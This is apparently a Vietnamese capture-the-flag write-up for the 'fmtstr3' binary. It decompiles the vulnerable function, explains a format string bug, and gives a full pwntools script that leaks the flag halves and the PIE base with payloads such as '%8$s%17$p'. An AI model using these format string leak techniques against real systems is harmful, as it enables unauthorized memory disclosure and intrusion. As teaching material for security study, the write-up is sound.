









**1. Tìm lỗi**

Dùng lệnh ```file``` để kiểm tra:

```
fmtstr3: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c27d00283febd53b992f8da9e14b5813eb29294f, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}
```

Hàm ```run```:

```
unsigned __int64 run()
{
  int v1; // [rsp+Ch] [rbp-44h]
  void *ptr; // [rsp+10h] [rbp-40h]
  FILE *stream; // [rsp+18h] [rbp-38h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v5; // [rsp+28h] [rbp-28h]
  char format[8]; // [rsp+30h] [rbp-20h] BYREF
  __int64 v7; // [rsp+38h] [rbp-18h]
  __int64 v8; // [rsp+40h] [rbp-10h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  *(_QWORD *)format = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  *(_QWORD *)s = 0LL;
  v5 = 0LL;
  ptr = malloc(0x100uLL);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("Cannot open flag.txt");
    exit(0);
  }
  fseek(stream, 0LL, 2);
  v1 = ftell(stream);
  fseek(stream, 0LL, 0);
  fread(ptr, v1 / 2, 1uLL, stream);
  fread(&flag2, v1, 1uLL, stream);
  fclose(stream);
  puts("What's your name?");
  printf("Your name: ");
  fgets(s, 16, stdin);
  printf("Hello ");
  printf(s);
  puts("Welcome to transylvania\n");
  printf("Say a greeting: ");
  fgets(format, 24, stdin);
  printf(format);
  puts("It's nice to meet you here");
  return __readfsqword(0x28u) ^ v9;
}
```

Đoạn code trên có chức năng đọc nội dung của tệp flag.txt, in ra một thông báo chào mừng và yêu cầu người dùng nhập một chuỗi định dạng để in ra màn hình.

Trước tiên, hàm run khai báo các biến cục bộ v1, ptr, stream, s, format, v5, v7, v8, và v9. Biến v9 được sử dụng để lưu trữ giá trị của thanh ghi ngăn xếp fs để kiểm tra tính toàn vẹn của hàm.

Sau đó, hàm cấp phát bộ nhớ động cho biến ptr với kích thước 256 byte (0x100uLL) và mở tệp flag.txt để đọc nội dung. Nếu không thể mở tệp, chương trình in ra thông báo và kết thúc. Hàm tiếp tục bằng cách tính toán độ dài của tệp flag.txt và đọc nội dung của nửa đầu tệp vào biến ptr và nửa sau tệp vào biến flag2. Sau đó, tệp flag.txt được đóng.

Tiếp theo, hàm in ra chuỗi "What's your name?" và yêu cầu người dùng nhập tên của họ với hàm fgets. Sau đó, hàm in ra chuỗi "Hello" và tên được nhập vào. Hàm tiếp tục bằng cách yêu cầu người dùng nhập một chuỗi định dạng với hàm fgets và in ra chuỗi này. Cuối cùng, hàm in ra chuỗi "It's nice to meet you here" và trả về giá trị của thanh ghi ngăn xếp fs để kiểm tra tính toàn vẹn của hàm.

Ta thấy ở câu lệnh ```printf(s);``` và ```printf(format);``` có lỗi format string.

**2. Ý tưởng**

Do flag được chia làm 2 và được lưu ở 2 biến không nằm trên stack hoàn toàn nên tận dụng %p và %s để leak giá trị của flag.

**3. Khai thác**

Đặt breakpoint sau lệnh đọc giá trị trong file flag xem ở stack có leak được giá trị nào của flag không.



Ta thấy nửa đầu của flag đã được lưu ở vị trí thứ 3 trong stack nên chỉ cần nhập ```%8$s``` thì sẽ in được ra. Thử kiểm tra xem đã in ra chưa.



Nhưng nửa sau không thấy ở đâu trên stack cả. Xem lại stack thì thấy ở vị trí 12 trên stack hay nhập ```%$17p``` sẽ leak được địa chỉ base. Kiểm tra lại xem:



Như vậy đã leak được nửa đầu của flag và giá trị base để tìm địa chỉ nửa sau. Bây giờ chỉ cần lưu lại

```
flag = b''
payload = b'%8$s%17$p'
r.sendlineafter(b'name: ', payload)
flag += r.recvuntil(b'0x', drop=True)
base_leak = int(r.recvline()[:-1], 16)
log.info("base leak: " + hex(base_leak))
```



Với địa chỉ leak ra được thì ta tính được cách địa chỉ base là ```0x14e6```

Có được địa chỉ base thì tính toán khoảng cách đến địa chỉ flag2.



Tính được flag2 cách địa chỉ base là ```0x4060```

Như vậy cũng đã tính được địa chỉ flag2. Đặt brepoint sau lệnh ```printf``` thứ 2 xem có thể đưa địa chỉ flag2 lên stack ở vị trí nào.



Thấy được chuỗi mình nhập vào được lưu ở vị trí thứ 7 trên stack nên khi mình nhập ```%12$s``` và địa chỉ của flag2 thì có khả năng in ra giá trị flag2.

```
payload = b'%12$s' + p64(flag2)
r.sendlineafter(b'greeting: ', payload)
```



Đã có sự dịch chuyển 3 byte khiến địa chỉ đã không đúng nên chèn thêm 3 byte rác nữa và sửa lại ```%13$s``` vì địa chỉ flag2 ở sau đó.



Như vậy flag2 đã ở trên stack. Còn lại chỉ cần lưu về và in flag đầy đủ ra. Vậy ta có script như sau

```
from pwn import *

exe = ELF('fmtstr3', checksec = False)
r = process(exe.path)

flag = b''
payload = b'%8$s%17$p'
r.sendlineafter(b'name: ', payload)
flag += r.recvuntil(b'0x', drop=True)
base_leak = int(r.recvline()[:-1], 16)
log.info("base leak: " + hex(base_leak))
exe.address = base_leak - 0x14e6
log.info("exe leak: " + hex(exe.address))
flag2 = exe.address + 0x4060
log.info("flag2: " + hex(flag2))

#input()
payload = b'%13$saaa' + p64(flag2)
r.sendlineafter(b'greeting: ', payload)
flag += r.recvuntil(b'}')
log.info('Flag: ' + flag.decode())
r.interactive()
```

**4. Lấy flag**


